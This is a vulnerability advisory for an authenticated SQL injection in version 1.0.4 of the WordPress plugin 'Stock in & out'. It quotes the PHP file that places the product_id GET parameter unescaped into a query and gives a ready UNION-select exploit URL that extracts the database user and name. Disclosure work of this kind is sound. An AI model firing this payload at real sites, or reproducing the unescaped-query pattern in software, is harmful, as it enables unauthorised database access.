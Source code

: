 # Vulnerability Info
## Vulnerability Type
Wordpress plugin Stock in & out Authenticated SQL Injection
## Vulnerability Version
1.0.4
## Recurring environment
Windows 10* PHP 5.4.5* Apache 2.4.23
## Author
pang0lin@webray.com.cn inc.
# Vulnerability Description AND recurrence:
The plugin has a functionality with Contributor role as the lowest access level takes in GET parameter product_id. The parameter is passed into SQL select statement without proper filter, validation or escaping therefore leads to sql injection.

The security issue is occured at file \wp-content\plugins\stock-in\includes\settings.php
```
 <?php
global $wpdb;
$author_id=get_current_user_id();
$stock_in_history=$wpdb->prefix.'stock_in_history';
/*if(isset($_GET['product_id'])){
$stock_in_log = $wpdb->get_results("SELECT * FROM $stock_in_history	WHERE product_id = $product_id ORDER BY id DESC");
}else{
$stock_in_log = $wpdb->get_results("SELECT * FROM $stock_in_history	ORDER BY id DESC");
}*/

if(isset($_GET['product_id'])){
$stock_in_log = "SELECT * FROM $stock_in_history WHERE product_id = $product_id";
}else{
$stock_in_log = "SELECT * FROM $stock_in_history";
}

$query = $stock_in_log;
 $total_query = "SELECT COUNT(1) FROM (${query}) AS combined_table";
    $total = $wpdb->get_var( $total_query );
    $items_per_page = 20;
	//$sort = isset( $_GET['sort'] ) ? 'DESC'	: 'ASC';
    $page = isset( $_GET['cpage'] ) ? abs((int)$_GET['cpage']) : 1;
    $offset = ( $page * $items_per_page ) - $items_per_page;
    $stock_in_log_by_page = $wpdb->get_results( $query . " ORDER BY ID ${sort} LIMIT ${offset}, ${items_per_page}" );

```
The parameter $_GET['product_id'] is derectly used by select statement. Then, we can exploit it .

http://www.target.com/wp-admin/admin.php?page=stock_in&product_id=0+union+select+1%2C2%2C3%2Cuser%28%29%2Cdatabase%28%29%2C6%2C7%2C8%2C9%2C10&tab=history

![blockchain](https://github.com/pang0lin/CVEproject/blob/main/imgs/wordpress_plugin_stockinandout_sqli.png "wordpress_plugin_stockinandout_sqli")
